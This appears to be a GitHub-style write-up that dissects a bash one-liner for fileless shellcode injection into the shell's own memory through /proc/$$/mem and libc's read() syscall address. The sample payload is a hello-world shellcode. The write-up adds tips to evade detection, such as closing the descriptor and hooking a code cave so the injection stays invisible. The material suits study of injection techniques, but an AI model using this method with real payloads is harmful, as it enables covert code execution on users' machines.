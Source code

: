 ### Bash shellcode injection oneliner

I saw this trick from David Buchanan twitter (https://twitter.com/David3141593)

![trick](./pics/trick.png)



so that's it:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
```

that's an interesting trick to inject a shellcode (encoded in base64 directly into the bash parent process memory)

It's an interesting trick because, you can inject a shellcode in another process, without creating another process, and without touching the disk of course, fileless.. that's not really new, but a clever trick

let's analyze it to see how it works (and after, improve it a bit...)

* #### first

  `cd /proc/$$;`

  well that actually goes in the /proc directory of the parent process, the `$$` symbol is bash symbol for parent process.

  The parent process is `bash` probably , or any shell you use. 

* #### second

  `read a<syscall`

  well, that's one read the `/proc/$$/syscall` entry into the variable `a`

  but what is `/proc/pid/syscall` ? (humm good question..)

![syscall](./pics/syscall.png)

On Ubuntu default security settings, you can not read another process `/proc/pid/syscall` entry, but as `read` is an internal bash command, it will work as it is bash reading his own `/proc/pid/syscall` entry

let's try it:

```bash
$ echo $$
1935387
$ read a</proc/$$/syscall
$ echo $a
0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992
$ cat /proc/1935387/maps
55917cfd6000-55917d005000 r--p 00000000 00:1b 1526224                    /usr/bin/bash
55917d005000-55917d0e4000 r-xp 0002f000 00:1b 1526224                    /usr/bin/bash
55917d0e4000-55917d11e000 r--p 0010e000 00:1b 1526224                    /usr/bin/bash
55917d11f000-55917d123000 r--p 00148000 00:1b 1526224                    /usr/bin/bash
55917d123000-55917d12c000 rw-p 0014c000 00:1b 1526224                    /usr/bin/bash
55917d12c000-55917d137000 rw-p 00000000 00:00 0 
55917dc8d000-55917de9e000 rw-p 00000000 00:00 0                          [heap]
7f8061f97000-7f8062aaf000 r--p 00000000 00:1b 2356892                    /usr/lib/locale/locale-archive
7f8062aaf000-7f8062ab2000 rw-p 00000000 00:00 0 
7f8062ab2000-7f8062ada000 r--p 00000000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ada000-7f8062c6f000 r-xp 00028000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062c6f000-7f8062cc7000 r--p 001bd000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062cc7000-7f8062ccb000 r--p 00214000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccb000-7f8062ccd000 rw-p 00218000 00:1b 546816                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8062ccd000-7f8062cda000 rw-p 00000000 00:00 0 
7f8062cda000-7f8062ce8000 r--p 00000000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062ce8000-7f8062cf9000 r-xp 0000e000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062cf9000-7f8062d07000 r--p 0001f000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d07000-7f8062d0b000 r--p 0002c000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d0b000-7f8062d0c000 rw-p 00030000 00:1b 510580                     /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3
7f8062d3a000-7f8062d41000 r--s 00000000 00:1b 547276                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8062d41000-7f8062d43000 rw-p 00000000 00:00 0 
7f8062d43000-7f8062d45000 r--p 00000000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d45000-7f8062d6f000 r-xp 00002000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d6f000-7f8062d7a000 r--p 0002c000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7b000-7f8062d7d000 r--p 00037000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f8062d7d000-7f8062d7f000 rw-p 00039000 00:1b 536442                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fffcc912000-7fffcc934000 rw-p 00000000 00:00 0                          [stack]
7fffcc9f8000-7fffcc9fc000 r--p 00000000 00:00 0                          [vvar]
7fffcc9fc000-7fffcc9fe000 r-xp 00000000 00:00 0                          [vdso]
ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]

```

as you can see in the example above,

`/proc/pid/syscall` contains that string:

`0 0x0 0x55917d134260 0x1000 0x2ca893f4 0x0 0xffffffff 0x7fffcc931228 0x7f8062bc6992`

if we read manual above, it means last syscall was number 0 , it is `read()` syscall, with args:

* 0 --> filedescriptor (`rdi` register)
* 0x55917d134260  -->  address (`rsi` register)

* 0x1000 --> length  (`rdx` register)

then they are the 3 others arguments , that are not used by `read()` which take only 3 arguments,

then:

* 0x7fffcc931228 --> stack value
* 0x7f8062bc6992 --> address of the syscall



**Well what all this means?**

well it's probably the `read` syscall , of libc `read()` function, as we can see in the `/proc/pid/maps` output , that 0x7f8062bc6992 is mapped in libc at offset 0x114992 from libc's start. If we check in GDB we can confirm that it is the syscall from `__GI___libc_read+16` libc internal function:

![libc](./pics/libc.png)

`__GI___libc_read+18` is the address next to the sycall , that is return in `/proc/pid/syscall`, by read `read a<syscall`



* #### third

`exec 3>mem`

that is an internal command from bash too, let's see his manual:

this command open `/proc/$$/mem` for writing on filedescriptor 3.

so everything written to filedescriptor 3, will be written directly in bash process memory

![exec](./pics/exec.png)

*`exec` can be used in many other ways too, to change argv0 for example, but we will just concentrate on his usage on filedescriptors*



* #### fourth

```base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3```



ok , now that the filedescriptor 3 points to bash process memory, we can write into the process memory, we just need to seek into `/proc/$$/mem` to reach a known address, we will use the syscall address returned by `/proc/$$/syscall` that we stored before in `a` variable, to write directly into libc `__GI___libc_read()` function.. (yes, with `/proc/$$/mem` you can even write in non writable zone..like in libc exec zone)

we encode our shellcode in base64, and write it at this position, like this as soon as bash, will call `read()` libc function (which is quite often), it will execute our shellcode... but `read()` function will be pretty well destroyed for bash next calls to it.. 

our shellcode take over anyway..

* #### improvements

well that works, but even if you inject your shellcode directly in a process memory (bash in this case), even fileless, it leaves some supect traces... let's give it a try..

my example above inject a "hello world" shellcode, and goes in an endless loop, let's look at filedescriptors of the bash process after injection:

![](./pics/procfd.png)

well you see, that filedescriptor 3 is left open, and that's suspicious.

so first improvement is closing the fd just after writing:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3;exec 3>&-
```

by adding `exec 3>&-` we closed the filedescriptor after using it..


now there is the problem that bash is left unusable, as the shellcode basically "hijacked" the code execution...

as the `read a<syscall` give a pretty consistent return to a know offset in libc, what we can do is for example is patching at another place in libc.

for example, if you look at the `__GI___libc_read()` function disassembly above, you can see that at `__GI___libc_read+106` there is a `ret` followed by some `nop`instruction padding, for alignement process..

this ret is at offset +88, after the address return by `read a<syscall`, we can write to it like this for example:

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<agFfV1hIjTUKAAAAaBAAAABaDwXr/khlbGxvIFdvcmxkICEhIQA=|dd bs=1 seek=$[`echo $a|cut -d" " -f9`+88]>&3;exec 3>&-
```

so to ameliorate the method,

we could first write our shellcode to an unused place in libc in the executable zone (there are many code caves as they are called in libc) 

then do a second write to patch for example the `ret` and replace it with a `jmp` that will jump to our shellcode at the end of the function, and will return normally after..

like this bash will continue to function normally, and our shellcode will be called each time a `read()` is called by bash (which is pretty often off course...)

this is left as an exercise for the most motivated ;)

* #### Conclusion

It's a nice process injection method, totally invisible if done correctly..and you can do it only with a bash oneliner

